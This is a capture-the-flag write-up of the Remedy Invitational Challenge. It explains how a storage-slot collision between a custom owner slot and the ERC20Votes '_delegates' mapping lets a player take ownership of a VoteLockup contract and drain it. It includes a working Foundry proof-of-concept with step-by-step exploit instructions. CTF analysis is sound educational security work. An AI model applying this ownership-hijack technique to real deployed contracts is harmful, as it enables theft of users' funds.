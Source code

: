 ## The promised debrief of the [Remedy Invitational Challenge](https://github.com/Hexens/remedy-invitational-challenge)

As you can see, we have a classic Foundry repo with a smart contract system where the contract to hack is `VoteLockup`.
The condition of a successful hack and the setup phase are described in `Challenge`:
- `VoteLockup` contains 100 ERC20 `Token`
- You'll get only 1 `Token`
- To win, you have to drain these 100 `Token` from `VoteLockup` (your balance have to be 101 `Token`, and the balance of `VoteLockup` have to be 0)

Let's see what the functionality of `VoteLockup` is. It contains only a number of functions that you expect to find in a lockup contract: `lock()`, `unlock()`, `transferLock()`, several setter functions for the administration, and `emergencyRescue()`, which will withdraw the `Token` balance to the owner of the contract. These owner functions are quite useless at this point because the owner has been renounced at the setup phase in `Challenge` and is equal to `address(0)`.

Another interesting detail is that `VoteLockup` inherit from the standard OZ's [`ERC20Votes`](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20#ERC20Votes) and another contract in the system, `Config`.

The first one is ERC20 with Votes extension, which allows you to mint tokens and keep a record of the holder's voting power.
The second contract is used to manage the storage variables. It contains several storage slot hashes.

And now we're going to rumble. Several factors allow us to perform an exploit of this system:
1. `VoteLockup` uses a custom ownership system. The storage slot that contains the owner's address is:
```solidity
    // (uint128(3), "VoteLockup.owner", uint256(9))
    bytes32 constant OWNER_SLOT = 0x1c74dc1e791d52b055e12f7becf77d0eadb955c09f51ff245f7130b2a5096380;
```
2. `transferLock()` in `VoteLockup` is malleable. It transfers the delegation of the recipient (address `to`) to the delegate of `msg.sender`, which allows you to write to the `_delegates` mapping in `ERC20Votes`:
```solidity
        _delegate(to, delegates(msg.sender));
```
3. This `_delegates` mapping is on the 9th storage slot (check it with `forge inspect ./src/VoteLockup.sol:VoteLockup storage-layout --pretty`):

| Name                             | Type                                               | Slot | Offset | Bytes | Contract                      |
| -------------------------------- | -------------------------------------------------- | ---- | ------ | ----- | ----------------------------- |
| _balances                        | mapping(address => uint256)                        | 0    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _allowances                      | mapping(address => mapping(address => uint256))    | 1    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _totalSupply                     | uint256                                            | 2    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _name                            | string                                             | 3    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _symbol                          | string                                             | 4    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _nameFallback                    | string                                             | 5    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _versionFallback                 | string                                             | 6    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _nonces                          | mapping(address => struct Counters.Counter)        | 7    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _PERMIT_TYPEHASH_DEPRECATED_SLOT | bytes32                                            | 8    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _delegates                       | mapping(address => address)                        | 9    | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _checkpoints                     | mapping(address => struct ERC20Votes.Checkpoint[]) | 10   | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| _totalSupplyCheckpoints          | struct ERC20Votes.Checkpoint[]                     | 11   | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| lockCounter                      | uint256                                            | 12   | 0      | 32    | src/VoteLockup.sol:VoteLockup |
| locks                            | mapping(uint256 => struct VoteLockup.Lock)         | 13   | 0      | 32    | src/VoteLockup.sol:VoteLockup |

4. And if you're paying attention and you know something about how to calculate storage slots for mappings (I had to remind myself, honestly), you'll notice the 9 in the comment to `OWNER_SLOT`. This is a storage collision, anon!

Simply, the formula of a mapping storage slot is as follows: `keccak256(abi.encode(KEY, SLOT_INDEX_DECLARATION))`. `KEY` here is an arbitrary value, such as some address, because `_delegates` is a mapping from address to address. And `SLOT_INDEX_DECLARATION` is our storage slot, 9, in this particular case. Compare it to the `OWNER_SLOT` preimage: `(uint128(3), "VoteLockup.owner", uint256(9))`.

Encode `uint128(3), "VoteLockup.owner"` as address (`0x00000003566f74654c6F636B75702e6F776e6572`) to use it as `KEY`. Then compute `keccak256(abi.encode(0x00000003566f74654c6F636B75702e6F776e6572, 9))` and you'll see it is equal to `OWNER_SLOT`.

Read more about mappings in [this article](https://medium.com/@flores.eugenio03/exploring-the-storage-layout-in-solidity-and-how-to-access-state-variables-bf2cbc6f8018).

To use the exploit, I wrote this PoC:
```solidity
contract Solve is Test {
    function testSolve() public {
        Challenge challenge = new Challenge();

        Token token = challenge.token();
        VoteLockup voteLockup = challenge.voteLockup();

        token.approve(address(voteLockup), 1 ether);
        voteLockup.lock(1 ether, 7 days);

        voteLockup.delegate(address(this));
        voteLockup.transferLock(2, address(0x00000003566f74654c6F636B75702e6F776e6572));

        voteLockup.emergencyRescue();

        assert(challenge.isSolved());
    }
}
```

Step-by-step:
1. Prerequisites. Deploy `Challenge`, get `Token` and `VoteLockup` addresses.
2. Approve 1 `Token` and lock it for the minimal duration. The amount or duration doesn't matter, actually. The point is to get some of the `ERC20Votes` tokens from `VoteLockup`. This will allow us to use `transferLock()`.
3. Delegate to ourselves so `delegates(msg.sender)` will return our address.
4. Call `transferLock()`. Here is where all the magic happens: it'll execute `_delegate(0x00000003566f74654c6F636B75702e6F776e6572, our address)`, which basically means `_delegates[0x00000003566f74654c6F636B75702e6F776e6572] = our address`. And since the storage slot of `_delegates[0x00000003566f74654c6F636B75702e6F776e6572]` is equal to `OWNER_SLOT`, we set the ownership to our address!
5. Then we can execute `emergencyRescue()` and get the money. Profit!

It took me one hour to find all the pieces of the puzzle; I hope you enjoyed it too!
Thanks to 0xKasper and Remedy for this wonderful experience!